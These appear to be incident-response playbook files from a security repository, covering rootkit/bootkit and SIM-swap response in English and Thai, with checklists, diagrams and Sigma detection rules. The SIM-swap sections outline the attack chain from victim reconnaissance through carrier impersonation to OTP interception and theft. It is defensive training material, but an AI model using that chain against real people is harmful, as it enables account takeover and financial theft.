    FirmP --> Reset4["💀 Reset: Reflash firmware\nor replace hardware"]
    style FirmP fill:#660000,color:#fff
    style Reset4 fill:#660000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Rootkit/Bootkit Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        EDR/AV alert           :a1, 00:00, 10min
        Offline scan confirm   :a2, after a1, 30min
    section Containment
        Network isolation      :a3, after a2, 5min
        Memory acquisition     :a4, after a3, 60min
    section Investigation
        Rootkit classification :a5, after a4, 120min
        Persistence analysis   :a6, after a5, 120min
    section Recovery
        Reimage/Reflash        :a7, after a6, 180min
        Verify clean state     :a8, after a7, 60min
```

---

## 1. Immediate Actions (First 30 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | **DO NOT REBOOT** — rootkit may alter behavior on reboot | SOC T1 |
| 2 | Network-isolate the endpoint (EDR or physical) | SOC T1 |
| 3 | Acquire memory dump BEFORE any remediation | IR Team |
| 4 | Acquire disk image for forensic analysis | IR Team |
| 5 | Run offline rootkit scanner from clean USB | IR Team |
| 6 | Check UEFI/Secure Boot integrity | IT Ops |

## 2. Investigation Checklist

### Rootkit Detection Tools
- [ ] Run GMER or TDSSKiller (offline)
- [ ] Check loaded kernel drivers: `driverquery /v`
- [ ] Compare running processes (task manager vs API-level tools)
- [ ] Check for hidden files with forensic tools (FTK Imager)
- [ ] Verify MBR/VBR integrity (compare with known-good hash)
- [ ] Check UEFI firmware hash against manufacturer baseline

### Behavioral Indicators
- [ ] Processes visible in memory dump but not in Task Manager
- [ ] Network connections not shown by `netstat`
- [ ] Disk space usage doesn't match visible files
- [ ] System clock anomalies
- [ ] AV/EDR agent crashes or cannot update
- [ ] Blue screens with unusual stop codes

### Persistence Analysis
- [ ] Kernel drivers loaded from unusual paths
- [ ] Services with no corresponding binary
- [ ] MBR/VBR modified from known-good state
- [ ] UEFI variables or EFI partition modified
- [ ] Secure Boot status (enabled/disabled/bypassed)

## 3. Containment

| Scope | Action |
|:---|:---|
| **Network** | Full isolation — no connectivity |
| **Endpoint** | Do NOT reboot, preserve state |
| **Evidence** | Memory dump + full disk image |
| **Spread** | Check same hardware model for similar infection |

## 4. Eradication & Recovery

### By Rootkit Type
| Type | Recovery Method |
|:---|:---|
| User-mode | AV removal → verify → monitor |
| Kernel-mode | Full disk wipe + OS reimage |
| Bootkit (MBR) | Wipe disk + reimage + verify MBR |
| UEFI rootkit | Reflash firmware from manufacturer + reimage |
| Firmware rootkit | Replace hardware if reflash impossible |

### Recovery Verification
1. Boot from known-clean media
2. Run offline rootkit scan on reimaged system
3. Verify UEFI/Secure Boot settings
4. Monitor for re-infection indicators (7 days)
5. Deploy additional kernel protection (HVCI, VBS)

## 5. Post-Incident

| Question | Answer |
|:---|:---|
| How was the rootkit delivered? | [Vector] |
| Was Secure Boot enabled? | [Yes/No] |
| Was driver signing enforced? | [Yes/No] |
| How long was the rootkit active? | [Duration] |
| Were other systems affected? | [Count] |

## 6. Detection Rules (Sigma)

```yaml
title: Suspicious Kernel Driver Loaded
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID: 7045
        ServiceType: 'kernel mode driver'
    filter:
        ImagePath|startswith:
            - 'C:\Windows\System32\drivers\'
    condition: selection and not filter
    level: critical
```

```yaml
title: Unsigned Driver Load Attempt
logsource:
    product: windows
    category: driver_load
detection:
    selection:
        Signed: 'false'
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Malware Infection Playbook](Malware_Infection.en.md)
- [Credential Dumping Playbook](Credential_Dumping.en.md)
- [Wiper Attack Playbook](Wiper_Attack.en.md)
- [Tier 3 Runbook](../Runbooks/Tier3_Runbook.en.md)

## References
- [MITRE T1014 — Rootkit](https://attack.mitre.org/techniques/T1014/)
- [MITRE T1542 — Pre-OS Boot](https://attack.mitre.org/techniques/T1542/)
- [ESET — UEFI Threats](https://www.welivesecurity.com/)


---

## File: 05_Incident_Response/Playbooks/Rootkit_Bootkit.th.md

# Playbook: การตอบสนอง Rootkit / Bootkit

**ID**: PB-45
**ความรุนแรง**: วิกฤต | **ประเภท**: Defense Evasion / Persistence
**MITRE ATT&CK**: [T1014](https://attack.mitre.org/techniques/T1014/) (Rootkit), [T1542](https://attack.mitre.org/techniques/T1542/) (Pre-OS Boot), [T1542.003](https://attack.mitre.org/techniques/T1542/003/) (Bootkit)
**Trigger**: EDR alert (kernel-level hooking), AV (rootkit detection), ระบบไม่เสถียรพร้อม hidden processes, UEFI integrity check failure

> ⚠️ **วิกฤต**: Rootkits ทำงานต่ำกว่า OS — เครื่องมือมาตรฐานตรวจไม่พบ Bootkits อยู่รอดการ reinstall OS ต้องใช้เครื่องมือเฉพาะทางและอาจต้อง reimage hardware

### Rootkit / Bootkit Taxonomy

```mermaid
graph TD
    Root["💀 Rootkit / Bootkit"] --> User["User-mode Rootkit\nAPI hooking, DLL injection"]
    Root --> Kernel["Kernel-mode Rootkit\nDriver-level hiding"]
    Root --> UEFI["UEFI/Bootkit\nPre-OS persistence"]
    Root --> HW["Hardware/Firmware\nHDD/SSD firmware"]
    
    User --> UEx["ซ่อน processes\nซ่อน files\nซ่อน connections"]
    Kernel --> KEx["Kernel callbacks\nFilter drivers\nDKOM"]
    UEFI --> BEx["แก้ไข MBR/VBR\nUEFI implant\nBypass Secure Boot"]
    HW --> HEx["แก้ไข SSD firmware\nNIC firmware\nBMC/IPMI implant"]
    
    style Root fill:#660000,color:#fff
    style Kernel fill:#cc0000,color:#fff
    style UEFI fill:#cc0000,color:#fff
    style HW fill:#660000,color:#fff
```

### กลุ่ม Rootkit ที่รู้จัก

```mermaid
graph TD
    subgraph "UEFI/Bootkits"
        B1["BlackLotus\nBypass Secure Boot"]
        B2["CosmicStrand\nUEFI firmware rootkit"]
        B3["MosaicRegressor\nUEFI implant"]
        B4["ESPecter\nEFI partition"]
    end
    subgraph "Kernel Rootkits"
        K1["Necurs\nKernel driver"]
        K2["ZeroAccess\nKernel hooks"]
        K3["TDL4/TDSS\nMBR infection"]
        K4["FiveSys\nSigned driver"]
    end
    style B1 fill:#660000,color:#fff
    style B2 fill:#660000,color:#fff
    style K1 fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 สงสัย Rootkit/Bootkit"] --> Source{"วิธีตรวจจับ?"}
    Source -->|"EDR"| EDR["Kernel hooking ตรวจพบ\nDriver ผิดปกติ"]
    Source -->|"AV/UEFI scan"| AV["Rootkit signature match\nหรือ integrity failure"]
    Source -->|"Anomaly"| Anomaly["Hidden processes\nDisk space หายไป\nNetwork traffic ผิดปกติ"]
    EDR --> Confirm["รัน offline rootkit scanner"]
    AV --> Confirm
    Anomaly --> Confirm
    Confirm --> Found{"ยืนยัน rootkit?"}
    Found -->|"User-mode"| UserR["🟠 ปานกลาง\nลบได้ด้วย AV"]
    Found -->|"Kernel-mode"| KernelR["🔴 วิกฤต\nต้อง reimage"]
    Found -->|"UEFI/Bootkit"| UEFIR["💀 หายนะ\nต้อง reflash firmware"]
    Found -->|"ไม่พบ"| FP["ตรวจติดตามต่อ\nนัด deep scan"]
    KernelR --> Isolate["แยก — เก็บสำหรับ forensics"]
    UEFIR --> Isolate
    style Alert fill:#660000,color:#fff
    style UEFIR fill:#660000,color:#fff
    style KernelR fill:#cc0000,color:#fff
```

### ชั้น Visibility

```mermaid
graph TD
    subgraph "ชั้น Visibility"
        L1["Application Layer\n✅ AV มาตรฐานเห็นได้"]
        L2["User-mode API\n⚠️ API hooks ซ่อนได้"]
        L3["Kernel / Drivers\n🔴 Kernel rootkits ซ่อนที่นี่"]
        L4["Boot Process\n💀 Bootkits โหลดก่อน OS"]
        L5["Firmware/UEFI\n💀 แทบมองไม่เห็น"]
    end
    L1 --> L2 --> L3 --> L4 --> L5
    style L1 fill:#00aa00,color:#fff
    style L2 fill:#ffcc00,color:#000
    style L3 fill:#ff4444,color:#fff
    style L4 fill:#cc0000,color:#fff
    style L5 fill:#660000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant IR as IR Team
    participant Forensics
    participant IT as IT Ops

    EDR->>SOC: 🚨 Kernel-level anomaly ตรวจพบ
    SOC->>SOC: ยืนยันด้วย offline scan tool
    SOC->>IR: Escalate — สงสัย rootkit
    IR->>Forensics: Boot จาก clean USB, scan offline
    Forensics->>IR: ยืนยันประเภท rootkit & กลุ่ม
    IR->>IT: แยก — อย่า reboot (อาจทำลายหลักฐาน)
    IR->>Forensics: Memory dump + disk image
    Forensics->>IR: รายงานวิเคราะห์เต็ม
    IR->>IT: Reimage (kernel) หรือ reflash (UEFI)
```

### ความลึกของ Persistence

```mermaid
graph TD
    Persist["ความลึก Persistence"] --> AppP["Application\nรอดการ reboot"]
    Persist --> ServiceP["Service/Driver\nรอดการ reboot"]
    Persist --> BootP["Boot Sector\nรอดการ reinstall OS"]
    Persist --> FirmP["Firmware/UEFI\nรอดการเปลี่ยน disk"]
    AppP --> Reset1["🟢 วิธีแก้: ลบ app/service"]
    ServiceP --> Reset2["🟡 วิธีแก้: Reimage OS"]
    BootP --> Reset3["🔴 วิธีแก้: Wipe disk + reimage"]
    FirmP --> Reset4["💀 วิธีแก้: Reflash firmware\nหรือเปลี่ยน hardware"]
    style FirmP fill:#660000,color:#fff
    style Reset4 fill:#660000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Rootkit/Bootkit Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        EDR/AV alert           :a1, 00:00, 10min
        ยืนยัน offline scan    :a2, after a1, 30min
    section Containment
        Network isolation      :a3, after a2, 5min
        Memory acquisition     :a4, after a3, 60min
    section Investigation
        จำแนก rootkit          :a5, after a4, 120min
        วิเคราะห์ persistence  :a6, after a5, 120min
    section Recovery
        Reimage/Reflash        :a7, after a6, 180min
        ยืนยันสถานะสะอาด       :a8, after a7, 60min
```

---

## 1. การดำเนินการทันที (30 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | **อย่า REBOOT** — rootkit อาจเปลี่ยนพฤติกรรมเมื่อ reboot | SOC T1 |
| 2 | แยกเครือข่าย endpoint (EDR หรือทางกายภาพ) | SOC T1 |
| 3 | เก็บ memory dump ก่อนทำ remediation ใดๆ | IR Team |
| 4 | เก็บ disk image สำหรับ forensic analysis | IR Team |
| 5 | รัน offline rootkit scanner จาก clean USB | IR Team |
| 6 | ตรวจ UEFI/Secure Boot integrity | IT Ops |

## 2. รายการตรวจสอบ

### เครื่องมือตรวจจับ Rootkit
- [ ] รัน GMER หรือ TDSSKiller (offline)
- [ ] ตรวจ kernel drivers ที่โหลด: `driverquery /v`
- [ ] เปรียบเทียบ processes (task manager vs API-level tools)
- [ ] ตรวจไฟล์ hidden ด้วย forensic tools (FTK Imager)
- [ ] ตรวจ MBR/VBR integrity (เปรียบเทียบกับ hash ที่รู้จัก)
- [ ] ตรวจ UEFI firmware hash กับ baseline ของผู้ผลิต

### ตัวบ่งชี้พฤติกรรม
- [ ] Processes เห็นใน memory dump แต่ไม่เห็นใน Task Manager
- [ ] Network connections ไม่แสดงใน `netstat`
- [ ] การใช้ disk space ไม่ตรงกับไฟล์ที่เห็น
- [ ] AV/EDR agent crash หรืออัปเดตไม่ได้
- [ ] นาฬิการะบบผิดปกติ
- [ ] Blue screens ด้วย stop codes ผิดปกติ

### วิเคราะห์ Persistence
- [ ] Kernel drivers โหลดจาก paths ผิดปกติ
- [ ] Services ที่ไม่มี binary ที่สอดคล้อง
- [ ] MBR/VBR แก้ไขจากสถานะที่รู้จัก
- [ ] UEFI variables หรือ EFI partition แก้ไข
- [ ] สถานะ Secure Boot (เปิด/ปิด/bypass)

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **เครือข่าย** | แยกเต็มรูปแบบ — ไม่มีการเชื่อมต่อ |
| **Endpoint** | อย่า reboot, รักษาสถานะ |
| **หลักฐาน** | Memory dump + full disk image |
| **การแพร่กระจาย** | ตรวจ hardware model เดียวกันสำหรับการติดเชื้อเดียวกัน |

## 4. การกำจัดและกู้คืน

### ตามประเภท Rootkit
| ประเภท | วิธีกู้คืน |
|:---|:---|
| User-mode | AV removal → ยืนยัน → ตรวจติดตาม |
| Kernel-mode | Full disk wipe + OS reimage |
| Bootkit (MBR) | Wipe disk + reimage + ตรวจ MBR |
| UEFI rootkit | Reflash firmware จากผู้ผลิต + reimage |
| Firmware rootkit | เปลี่ยน hardware ถ้า reflash ไม่ได้ |

### ยืนยันการกู้คืน
1. Boot จาก media ที่สะอาดที่รู้ว่าสะอาด
2. รัน offline rootkit scan บนระบบที่ reimage
3. ยืนยันการตั้งค่า UEFI/Secure Boot
4. ตรวจติดตามสัญญาณการติดเชื้อซ้ำ (7 วัน)
5. Deploy kernel protection เพิ่มเติม (HVCI, VBS)

## 5. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Rootkit ถูกส่งมาอย่างไร? | [เวกเตอร์] |
| Secure Boot เปิดอยู่หรือไม่? | [ใช่/ไม่] |
| Driver signing บังคับใช้หรือไม่? | [ใช่/ไม่] |
| Rootkit ทำงานอยู่นานเท่าไหร่? | [ระยะเวลา] |
| มีระบบอื่นได้รับผลกระทบหรือไม่? | [จำนวน] |

## 6. Detection Rules (Sigma)

```yaml
title: Suspicious Kernel Driver Loaded
logsource:
    product: windows
    service: system
detection:
    selection:
        EventID: 7045
        ServiceType: 'kernel mode driver'
    filter:
        ImagePath|startswith:
            - 'C:\Windows\System32\drivers\'
    condition: selection and not filter
    level: critical
```

```yaml
title: Unsigned Driver Load Attempt
logsource:
    product: windows
    category: driver_load
detection:
    selection:
        Signed: 'false'
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Malware Infection Playbook](Malware_Infection.th.md)
- [Credential Dumping Playbook](Credential_Dumping.th.md)
- [Wiper Attack Playbook](Wiper_Attack.th.md)
- [คู่มือ Tier 3](../Runbooks/Tier3_Runbook.th.md)

## References
- [MITRE T1014 — Rootkit](https://attack.mitre.org/techniques/T1014/)
- [MITRE T1542 — Pre-OS Boot](https://attack.mitre.org/techniques/T1542/)
- [ESET — UEFI Threats](https://www.welivesecurity.com/)


---

## File: 05_Incident_Response/Playbooks/SIM_Swap.en.md

# Playbook: SIM Swap / SIM Hijacking Response

**ID**: PB-46
**Severity**: Critical | **Category**: Credential Access / Social Engineering
**MITRE ATT&CK**: [T1111](https://attack.mitre.org/techniques/T1111/) (Multi-Factor Authentication Interception), [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts)
**Trigger**: User report (phone service lost), MFA SMS failures, carrier fraud alert, account takeover after phone number transfer

> ⚠️ **CRITICAL**: SIM swap bypasses SMS-based MFA completely. The attacker takes your phone number, receives all your OTPs, and takes over email, banking, and crypto accounts.

### SIM Swap Attack Chain

```mermaid
graph LR
    A["1️⃣ OSINT/Social\nGather victim info"] --> B["2️⃣ Carrier Contact\nImpersonate victim"]
    B --> C["3️⃣ SIM Transfer\nNumber on new SIM"]
    C --> D["4️⃣ MFA Intercept\nReceive all SMS OTPs"]
    D --> E["5️⃣ Account Takeover\nEmail, banking, crypto"]
    E --> F["6️⃣ Financial Theft\nWire transfer, crypto drain"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style E fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### SIM Swap Impact Map

```mermaid
graph TD
    SIM["📱 SIM Swap Successful"] --> SMS["Receive all SMS\nOTPs, verification codes"]
    SMS --> Email["Email Takeover\nPassword reset via SMS"]
    SMS --> Bank["Banking Access\nOTP for wire transfers"]
    SMS --> Crypto["Crypto Wallet\nSMS 2FA bypass"]
    SMS --> Social["Social Media\nAccount hijacking"]
    Email --> Chain["🔴 Chain Attack\nEmail → reset ALL accounts"]
    Bank --> Loss["💀 Financial Loss\nDirect theft"]
    Crypto --> Loss
    style SIM fill:#ff4444,color:#fff
    style Chain fill:#cc0000,color:#fff
    style Loss fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Suspected SIM Swap"] --> Indicator{"Indicator?"}
    Indicator -->|"Phone no service"| Phone["User reports:\nNo calls, no texts, no data"]
    Indicator -->|"MFA failures"| MFA["SMS OTPs not arriving\nUnexpected password resets"]
    Indicator -->|"Account lockout"| Lockout["Multiple accounts\npassword changed"]
    Phone --> Verify["📞 Contact carrier\nConfirm SIM transfer"]
    MFA --> Verify
    Lockout --> Verify
    Verify --> Confirmed{"SIM was swapped?"}
    Confirmed -->|Yes| Emergency["🔴 EMERGENCY\nLock ALL accounts NOW"]
    Confirmed -->|"No — Network issue"| Network["Troubleshoot connectivity"]
    Emergency --> Carrier["Call carrier:\nFreeze number + reverse swap"]
    Carrier --> Accounts["Secure all linked accounts\nChange passwords, revoke sessions"]
    style Alert fill:#ff4444,color:#fff
    style Emergency fill:#cc0000,color:#fff
```

### Response Coordination

```mermaid
sequenceDiagram
    participant User
    participant SOC as SOC/IT Security
    participant Carrier as Mobile Carrier
    participant IAM as IAM Team
    participant Bank as Banking/Finance

    User->>SOC: 🚨 Phone lost service, accounts locked
    SOC->>Carrier: Verify SIM swap — was it authorized?
    Carrier->>SOC: Unauthorized SIM swap confirmed
    SOC->>Carrier: Emergency freeze + reverse swap
    SOC->>IAM: Lock ALL accounts linked to phone number
    IAM->>IAM: Disable SMS MFA, switch to FIDO2/app
    SOC->>Bank: Alert — potential wire/crypto theft
    Bank->>Bank: Freeze transactions, flag account
    SOC->>User: Provide new secure MFA method
```

### MFA Method Risk Comparison

```mermaid
graph TD
    subgraph "🔴 Vulnerable to SIM Swap"
        SMS["SMS OTP"]
        Voice["Voice call OTP"]
    end
    subgraph "🟡 Partially Protected"
        TOTP["Authenticator App\n(TOTP)"]
        Push["Push Notification\n(if phone stolen)"]
    end
    subgraph "🟢 SIM Swap Resistant"
        FIDO["FIDO2/WebAuthn\nHardware key"]
        Passkey["Passkeys\nDevice-bound"]
    end
    style SMS fill:#cc0000,color:#fff
    style Voice fill:#cc0000,color:#fff
    style FIDO fill:#00aa00,color:#fff
    style Passkey fill:#00aa00,color:#fff
```

### Timeline

```mermaid
gantt
    title SIM Swap Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        User reports issue      :a1, 00:00, 5min
        Verify with carrier     :a2, after a1, 15min
    section Containment
        Freeze phone number     :a3, after a2, 10min
        Lock all accounts       :a4, after a3, 15min
    section Recovery
        Reverse SIM swap        :a5, after a4, 30min
        Reset all passwords     :a6, after a5, 60min
        Switch MFA to FIDO2     :a7, after a6, 30min
    section Investigation
        Assess financial damage :a8, after a7, 120min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Contact mobile carrier — confirm unauthorized SIM swap | User / SOC |
| 2 | Request carrier to freeze number and reverse swap | SOC |
| 3 | Lock all accounts using phone number for MFA | IAM Team |
| 4 | Check email for password reset notifications | SOC T1 |
| 5 | Alert banking/finance for potential fraud | Finance |
| 6 | Change passwords on all critical accounts | User / IAM |

## 2. Investigation Checklist

### Carrier Investigation
- [ ] When did the SIM swap occur? (exact timestamp)
- [ ] Which carrier store/channel processed the swap?
- [ ] What identity documents were used?
- [ ] Was it in-person, online, or phone channel?
- [ ] Can carrier provide caller/visitor information?

### Account Impact Assessment
- [ ] Which accounts use SMS MFA linked to this number?
- [ ] Were any password resets triggered during the swap window?
- [ ] Check email sent/deleted items for attacker activity
- [ ] Check banking/crypto for unauthorized transactions
- [ ] Check social media for unauthorized posts/messages

## 3. Containment

| Scope | Action |
|:---|:---|
| **Phone number** | Carrier freeze + reverse swap |
| **Email** | Change password + revoke sessions |
| **Banking** | Freeze account + report fraud |
| **Crypto** | Transfer to cold wallet if still accessible |
| **MFA** | Switch ALL accounts from SMS to FIDO2/app |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| How did attacker obtain victim's info? | [OSINT/phishing/breach] |
| Was carrier's identity verification sufficient? | [Assessment] |
| Which accounts were compromised? | [List] |
| What financial losses occurred? | [Amount] |
| Has SMS MFA been eliminated? | [Status] |

## 6. Detection Rules (Sigma)

```yaml
title: Multiple MFA SMS Delivery Failures
logsource:
    product: iam
    service: authentication
detection:
    selection:
        event_type: 'mfa_sms_delivery_failed'
    timeframe: 15m
    condition: selection | count(target_user) > 3
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Account Compromise Playbook](Account_Compromise.en.md)
- [MFA Bypass Playbook](MFA_Bypass.en.md)
- [BEC Playbook](BEC.en.md)

## References
- [FBI — SIM Swap Alert](https://www.ic3.gov/Media/Y2022/PSA220208)
- [NIST — MFA Guidance](https://pages.nist.gov/800-63-3/)


---

## File: 05_Incident_Response/Playbooks/SIM_Swap.th.md

# Playbook: การตอบสนอง SIM Swap / SIM Hijacking

**ID**: PB-46
**ความรุนแรง**: วิกฤต | **ประเภท**: Credential Access / Social Engineering
**MITRE ATT&CK**: [T1111](https://attack.mitre.org/techniques/T1111/) (MFA Interception), [T1078](https://attack.mitre.org/techniques/T1078/) (Valid Accounts)
**Trigger**: User รายงาน (โทรศัพท์ไม่มีสัญญาณ), MFA SMS ล้มเหลว, carrier แจ้งเตือนฉ้อโกง, account takeover หลังโอนหมายเลขโทรศัพท์

> ⚠️ **วิกฤต**: SIM swap bypass SMS-based MFA ทั้งหมด ผู้โจมตีเอาหมายเลขโทรศัพท์ไป รับ OTPs ทั้งหมด และเข้าควบคุม email, ธนาคาร, และ crypto

### SIM Swap Attack Chain

```mermaid
graph LR
    A["1️⃣ OSINT/สังคม\nรวบรวมข้อมูลเหยื่อ"] --> B["2️⃣ ติดต่อ Carrier\nปลอมเป็นเหยื่อ"]
    B --> C["3️⃣ โอน SIM\nหมายเลขอยู่บน SIM ใหม่"]
    C --> D["4️⃣ ดัก MFA\nรับ SMS OTPs ทั้งหมด"]
    D --> E["5️⃣ Account Takeover\nEmail, ธนาคาร, crypto"]
    E --> F["6️⃣ ขโมยเงิน\nWire transfer, crypto drain"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style E fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

### แผนผังผลกระทบ SIM Swap

```mermaid
graph TD
    SIM["📱 SIM Swap สำเร็จ"] --> SMS["รับ SMS ทั้งหมด\nOTPs, verification codes"]
    SMS --> Email["เข้าควบคุม Email\nReset password ผ่าน SMS"]
    SMS --> Bank["เข้าถึงธนาคาร\nOTP สำหรับ wire transfers"]
    SMS --> Crypto["Crypto Wallet\nBypass SMS 2FA"]
    SMS --> Social["Social Media\nAccount hijacking"]
    Email --> Chain["🔴 Chain Attack\nEmail → reset ทุกบัญชี"]
    Bank --> Loss["💀 สูญเสียเงิน\nขโมยโดยตรง"]
    Crypto --> Loss
    style SIM fill:#ff4444,color:#fff
    style Chain fill:#cc0000,color:#fff
    style Loss fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 สงสัย SIM Swap"] --> Indicator{"ตัวบ่งชี้?"}
    Indicator -->|"โทรศัพท์ไม่มีสัญญาณ"| Phone["User รายงาน:\nโทรไม่ได้ ส่ง SMS ไม่ได้"]
    Indicator -->|"MFA ล้มเหลว"| MFA["SMS OTPs ไม่มาถึง\nReset password ที่ไม่คาดคิด"]
    Indicator -->|"Account lockout"| Lockout["หลายบัญชี\npassword ถูกเปลี่ยน"]
    Phone --> Verify["📞 ติดต่อ carrier\nยืนยัน SIM transfer"]
    MFA --> Verify
    Lockout --> Verify
    Verify --> Confirmed{"SIM ถูกย้าย?"}
    Confirmed -->|ใช่| Emergency["🔴 ฉุกเฉิน\nล็อกทุกบัญชีทันที"]
    Confirmed -->|"ไม่ — ปัญหาเครือข่าย"| Network["แก้ไขปัญหาการเชื่อมต่อ"]
    Emergency --> Carrier["โทร carrier:\nFreeze + reverse swap"]
    Carrier --> Accounts["ล็อกทุกบัญชีที่เชื่อมโยง\nเปลี่ยน password, revoke sessions"]
    style Alert fill:#ff4444,color:#fff
    style Emergency fill:#cc0000,color:#fff
```

### การประสานงานตอบสนอง

```mermaid
sequenceDiagram
    participant User
    participant SOC as SOC/IT Security
    participant Carrier as Mobile Carrier
    participant IAM as IAM Team
    participant Bank as Banking/Finance

    User->>SOC: 🚨 โทรศัพท์ไม่มีสัญญาณ บัญชีถูกล็อก
    SOC->>Carrier: ยืนยัน SIM swap — เป็นที่ได้รับอนุญาตหรือไม่?
    Carrier->>SOC: ยืนยัน SIM swap ที่ไม่ได้รับอนุญาต
    SOC->>Carrier: Emergency freeze + reverse swap
    SOC->>IAM: ล็อกทุกบัญชีที่เชื่อมกับหมายเลขโทรศัพท์
    IAM->>IAM: ปิด SMS MFA, เปลี่ยนเป็น FIDO2/app
    SOC->>Bank: แจ้ง — อาจมีการขโมยเงิน/crypto
    Bank->>Bank: Freeze transactions, flag account
    SOC->>User: ให้วิธี MFA ใหม่ที่ปลอดภัย
```

### เปรียบเทียบความเสี่ยง MFA

```mermaid
graph TD
    subgraph "🔴 เสี่ยงต่อ SIM Swap"
        SMS["SMS OTP"]
        Voice["Voice call OTP"]
    end
    subgraph "🟡 ป้องกันบางส่วน"
        TOTP["Authenticator App\n(TOTP)"]
        Push["Push Notification\n(ถ้าโทรศัพท์ถูกขโมย)"]
    end
    subgraph "🟢 ทนทานต่อ SIM Swap"
        FIDO["FIDO2/WebAuthn\nHardware key"]
        Passkey["Passkeys\nDevice-bound"]
    end
    style SMS fill:#cc0000,color:#fff
    style Voice fill:#cc0000,color:#fff
    style FIDO fill:#00aa00,color:#fff
    style Passkey fill:#00aa00,color:#fff
```

### Timeline

```mermaid
gantt
    title SIM Swap Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        User รายงานปัญหา      :a1, 00:00, 5min
        ยืนยันกับ carrier      :a2, after a1, 15min
    section Containment
        Freeze หมายเลขโทรศัพท์ :a3, after a2, 10min
        ล็อกทุกบัญชี           :a4, after a3, 15min
    section Recovery
        Reverse SIM swap       :a5, after a4, 30min
        Reset passwords ทั้งหมด :a6, after a5, 60min
        เปลี่ยน MFA เป็น FIDO2 :a7, after a6, 30min
    section Investigation
        ประเมินความเสียหายทางเงิน :a8, after a7, 120min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | ติดต่อ mobile carrier — ยืนยัน SIM swap ที่ไม่ได้รับอนุญาต | User / SOC |
| 2 | ขอ carrier freeze หมายเลขและ reverse swap | SOC |
| 3 | ล็อกทุกบัญชีที่ใช้หมายเลขโทรศัพท์สำหรับ MFA | IAM Team |
| 4 | ตรวจ email สำหรับ password reset notifications | SOC T1 |
| 5 | แจ้งธนาคาร/การเงินสำหรับ potential fraud | Finance |
| 6 | เปลี่ยน passwords บนทุกบัญชีสำคัญ | User / IAM |

## 2. รายการตรวจสอบ

### สืบสวนผ่าน Carrier
- [ ] SIM swap เกิดขึ้นเมื่อไหร่? (timestamp ที่แน่นอน)
- [ ] ร้าน/ช่องทางไหนที่ดำเนินการ swap?
- [ ] เอกสารยืนยันตัวตนอะไรถูกใช้?
- [ ] เป็นช่องทาง in-person, online, หรือโทรศัพท์?

### ประเมินผลกระทบบัญชี
- [ ] บัญชีไหนใช้ SMS MFA เชื่อมกับหมายเลขนี้?
- [ ] มี password resets ที่ถูก trigger ระหว่างช่วง swap หรือไม่?
- [ ] ตรวจธนาคาร/crypto สำหรับ transactions ที่ไม่ได้รับอนุญาต
- [ ] ตรวจ social media สำหรับ posts/messages ที่ไม่ได้รับอนุญาต

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **หมายเลขโทรศัพท์** | Carrier freeze + reverse swap |
| **Email** | เปลี่ยน password + revoke sessions |
| **ธนาคาร** | Freeze account + รายงาน fraud |
| **Crypto** | โอนไป cold wallet ถ้ายังเข้าถึงได้ |
| **MFA** | เปลี่ยนทุกบัญชีจาก SMS เป็น FIDO2/app |

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| ผู้โจมตีได้ข้อมูลเหยื่ออย่างไร? | [OSINT/phishing/breach] |
| การยืนยันตัวตนของ carrier เพียงพอหรือไม่? | [ประเมิน] |
| บัญชีไหนถูกโจมตี? | [รายการ] |
| สูญเสียเงินเท่าไหร่? | [จำนวน] |
| SMS MFA ถูกเลิกใช้หรือยัง? | [สถานะ] |

## 6. Detection Rules (Sigma)

```yaml
title: Multiple MFA SMS Delivery Failures
logsource:
    product: iam
    service: authentication
detection:
    selection:
        event_type: 'mfa_sms_delivery_failed'
    timeframe: 15m
    condition: selection | count(target_user) > 3
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Account Compromise Playbook](Account_Compromise.th.md)
- [MFA Bypass Playbook](MFA_Bypass.th.md)
- [BEC Playbook](BEC.th.md)

## References
- [FBI — SIM Swap Alert](https://www.ic3.gov/Media/Y2022/PSA220208)
- [NIST — MFA Guidance](https://pages.nist.gov/800-63-3/)


---

## File: 05_Incident_Response/Playbooks/SQL_Injection.en.md

# Playbook: SQL Injection Response

**ID**: PB-37
**Severity**: High | **Category**: Initial Access / Web Application
**MITRE ATT&CK**: [T1190](https://attack.mitre.org/techniques/T1190/) (Exploit Public-Facing Application)
**Trigger**: WAF alert, SIEM correlation (suspicious SQL patterns), IDS signature, application error spike

